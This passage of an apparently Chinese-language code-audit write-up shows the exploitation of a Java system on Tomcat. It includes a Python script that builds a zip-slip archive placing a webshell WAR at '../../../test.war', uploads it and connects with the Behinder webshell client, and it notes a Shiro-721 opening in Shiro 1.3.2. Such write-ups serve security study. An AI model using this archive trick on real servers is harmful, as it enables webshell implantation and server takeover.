 也是有安装手册的

根据手册把配置文件改了   然后启动tomcat

![img](https://developer.qcloudimg.com/http-save/yehe-8600665/eba8110d4c987faa480815c93fe8cde5.png)

然后来到上传的地方

![img](https://developer.qcloudimg.com/http-save/yehe-8600665/f3af4f727996ef59bc3658833c9d6dff.png)

先准备恶意的zip包

把一句话打包成war包

![img](https://developer.qcloudimg.com/http-save/yehe-8600665/b80c061f608bb782de568ce3e0b63ffe.png)

然后把war包压缩  这里得用到脚本来

代码语言：javascript

复制

```javascript
import zipfile

file = zipfile.ZipFile('shell.zip','w',zipfile.ZIP_DEFLATED)

with open('test.war','rb') as f:
    data = f.read()
    
file.writestr('../../../test.war',data)
file.close()
```

![img](https://developer.qcloudimg.com/http-save/yehe-8600665/9502ad14b1e234a6d9148ab37faf78b0.png)

然后上传

![img](https://developer.qcloudimg.com/http-save/yehe-8600665/9d33c9b52f1193645cde2f5b2f15b76c.png)

![img](https://developer.qcloudimg.com/http-save/yehe-8600665/e1290917357eaf916fc3f42963bbafd7.png)

冰蝎连接

![img](https://developer.qcloudimg.com/http-save/yehe-8600665/c9ae05a748679cd833a38889d65af583.png)

###### **第二处**

在pom.xml中发现该系统用的shiro版本是1.3.2

![img](https://developer.qcloudimg.com/http-save/yehe-8600665/d76ddac70865c0993b9186c8df333ec6.png)

符合shiro-721的条件  现在版本符合了  就需要寻找构造链了

![img](https://developer.qcloudimg.com/http-save/yehe-8600665/9092e1dc164a2e9ab8a38f9c777f9f8a.png)
